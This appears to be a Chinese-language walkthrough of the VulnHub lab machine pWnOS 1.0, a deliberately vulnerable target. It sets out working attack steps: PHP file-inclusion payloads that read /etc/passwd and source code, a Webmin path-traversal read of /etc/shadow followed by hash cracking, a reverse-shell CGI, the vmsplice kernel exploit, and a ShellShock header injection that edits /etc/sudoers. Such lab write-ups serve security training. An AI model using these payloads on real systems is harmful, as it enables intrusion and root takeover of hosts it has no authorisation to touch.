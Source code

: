 # pWnOS: 1.0

2024-4-24 https://www.vulnhub.com/entry/pwnos-10,33/

difficulty: intermediate

## IP

192.168.10.175

## Scan

Open Port -> 22,80,139,445,10000

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey:
|   1024 e44640bfe629acc600e2b2a3e150903c (DSA)
|_  2048 10cc35458ef27aa1ccdba0e8bfc7733d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

先看看 smb 上有什么暴露出来信息：

```
enum4linux -a 192.168.10.175

Sharename       Type      Comment
---------       ----      -------
home            Disk      Home Directory for vmware User
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (ubuntuvm)
```

连接 SMB 出现错误提示，不能进一步查看：

```
smbclient -N //192.168.10.175/home

Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED
```

暂时放弃 SMB 这个方向，转向其他 2 个 web 服务。

对于 http://192.168.10.175/ 页面上，是一个可以提供帮助的页面，进行目录扫描，发现 2 个目录 /index1 和 /index2，访问 http://192.168.10.175/index1.php 时出现了有趣的提示：

```
Warning: include() [function.include]: Failed opening '' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/index1.php on line 18
```

看样子是 URL 中的某个参数没有设置，导致 include 时出现了问题。

访问 http://192.168.10.175/index1.php?help=true&connect=true 时，页面是正常的，说明 include 需要的参数不是 help 就是 connect。当 connect 为空时，就出现了 include 错误的提示。

让我们直接访问 http://192.168.10.175/index1.php?help=true&connect=/etc/passwd ，就直接能看到了 /etc/passwd 中的内容，发现几个有用账户名：

```
root:x:0:0:root:/root:/bin/bash
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```

在尝试用 php 包装器，读下 index1.php 和 index2.php 的代码，看看有什么内容：

http://192.168.10.175/index1.php?help=true&connect=php://filter/read=convert.base64-encode/resource=index1.php

```
<?php
//if($_GET['help'] == 'true'){
    include('ssiaddon.php');
//}

if($_GET['connect'] != 'true'){
    include($_GET['connect']);
}
?>
```

index1.php 中有一个注释的页面：ssiaddon.php，或许还存在，读取后没发现什么有用信息；index2.php 中也没什么有用信息。

尝试能否能远程 http 文件包含 kali 上的 php web 后门代码，发现不行，应该是 php 中相关 allow_url 参数没有打开。尝试能否找到目标机器上的日志目录，然后包含日志，在日志中植入 php 后门代码。web server 是 Apache，先查看下配置文件，看看日志文件的配置目录：/etc/apache2/apache2.conf ，发现其中配置的日志级别为：LogLevel warn，导致普通日志文件没有记录。

在这个 80 的 web 服务上没有发现其他的有价值信息了，尝试其他路径。

看看另外一个 Webmin 10000 端口的服务，由于我们没有账号和密码，所以不能登录。Webmin 存在多个漏洞，让我们尝试看是否能利用，使用 msf 中的 admin/webmin/file_disclosure 对重要文件进行读取，先尝试读取 /etc/shadow ：

```
RPATH    /etc/shadow       yes       The file to download

root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```

使用 john 进行爆破，尝试得到明文密码：h4ckm3 (vmware)，进而使用 ssh 登陆：

```
ssh -oHostKeyAlgorithms=ssh-dss,ssh-rsa vmware@192.168.10.175
```

登陆后，继续进行系统枚举，在 /home/obama 中有一个.ssh 文件夹，不知道其中有没有 ssh 密钥，让我们使用上面 msf 中的 exploit 继续去尝试读取：

```
set rpath /home/obama/.ssh/id_rsa
```

通过 ps 查看，发现 webmin 是通过 root 用户启动的，是否能找到 webmin 的配置文件，获取到用户名和密码进行登陆，通过查找得知了 webmin 的用户配置文件的信息存储在：/etc/webmin/miniserv.users，继续用上面的 msf 中的 exp 去进行读取：

```
set rpath /etc/webmin/miniserv.users
run

admin:$1$XXXXXXXX$8y5sgW4DoOQjHB7V9K4/G.:0
```

但是 rockyou 中没有匹配的密码，爆破失败。

## cgi 执行提权

在尝试寻找 webmin 的 RCE 执行漏洞，前面的漏洞利用，发现了 webmin 可以包含文件，由于 webmin 是由 perl 语言编写的，所以只要我们把 perl 反弹代码存储到文件中，然后去利用文件包含漏洞去包含这个文件，代码就会被执行，将 perl 的反弹代码放到目标机器的 /home/vmware/rev8888.cgi 文件中，然后访问下面的文件包含链接：

```
curl 'http://192.168.10.175:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/vmware/rev8888.cgi'
```

在我们的 kali 上进行监听，最终得到了反弹的 root shell：

```
# id
uid=0(root) gid=0(root)
# cd /root
# ls -al
total 28
drwxr-xr-x  4 root root 4096 Jun 12  2008 .
drwxr-xr-x 21 root root 4096 Jun 10  2008 ..
-rw-r--r--  1 root root  775 Jun 20  2008 .bash_history
-rw-r--r--  1 root root 2227 May 15  2007 .bashrc
-rw-------  1 root root    0 Jun 11  2008 .mysql_history
-rw-r--r--  1 root root  141 May 15  2007 .profile
drwx------  2 root root 4096 Jun 11  2008 .ssh
drwxr-xr-x  2 root root 4096 Jun 12  2008 keys
```

## 内核提权

同时也可以使用内核漏洞进行提权，目标机器的内核版本为：2.6.22，通过搜索，可以使用如下的代码：

```
Linux Kernel 2.6.17 < 2.6.24.1 - 'vmsplice' Local Privilege Escalation (2) | linux/local/5092.
```

下载到目标机器，编译执行：

```
vmware@ubuntuvm:~$ gcc 5092.c -o 5092
vmware@ubuntuvm:~$ ./5092
----------------------------------
 Linux vmsplice Local Root Exploit
 By qaaz
-----------------------------------
[+] mmap: 0x0 .. 0x1000
[+] page: 0x0
[+] page: 0x20
[+] mmap: 0x4000 .. 0x5000
[+] page: 0x4000
[+] page: 0x4020
[+] mmap: 0x1000 .. 0x2000
[+] page: 0x1000
[+] mmap: 0xb7e54000 .. 0xb7e86000
[+] root
root@ubuntuvm:~# id
uid=0(root) gid=0(root) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),104(scanner),111(lpadmin),112(admin),1000(vmware)
```

最后看下，为什么文件包含那里不能直接包含.pl 的脚本，查看 webmin 的配置文件 /etc/webmin/miniserv.conf ，看到其中有一行 denyfile=\.pl$ ，估计是这里导致包含.pl 文件时，出现了：Error - Access denied to，那能否包含其他后缀的文件，如.txt ，进行尝试，发现.txt 的文件直接是显示的文件内容，没有对 pl 代码进行解析。所以只能把 shell 文件的后缀名改为.cgi。

目标靶机的 base 版本较低，小于 `4.3` 的可能存在 ShellShock 漏洞，让我们进行测试看是否存在：

```
vmware@ubuntuvm:~$ env x='() { :; }; echo "VULNERABLE TO SHELLSHOCK"' bash -c date
VULNERABLE TO SHELLSHOCK
Thu Apr 25 01:19:23 CDT 2024
```

表明存在 ShellShock 漏洞。使用 nikto 对 10000 端口进行探测，发现有 cgi 执行，那么我们就可以利用 ShellShock 执行我们的特殊代码：

```
vmware@ubuntuvm:~$ echo '#!/bin/bash' > test.cgi
vmware@ubuntuvm:~$ chmod +x test.cgi

curl 'http://192.168.10.175:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/vmware/test.cgi' -H 'User-Agent: () { :; }; /bin/echo "vmware ALL=(ALL)NOPASSWD:ALL" >> /etc/sudoers'
```

这时 vmware 就有了以 root 身份对所有命令的免密执行权限：

```
vmware@ubuntuvm:~$ sudo -l
User vmware may run the following commands on this host:
    (ALL) NOPASSWD: ALL
vmware@ubuntuvm:~$ sudo /bin/bash
root@ubuntuvm:~# id
uid=0(root) gid=0(root) groups=0(root)
```
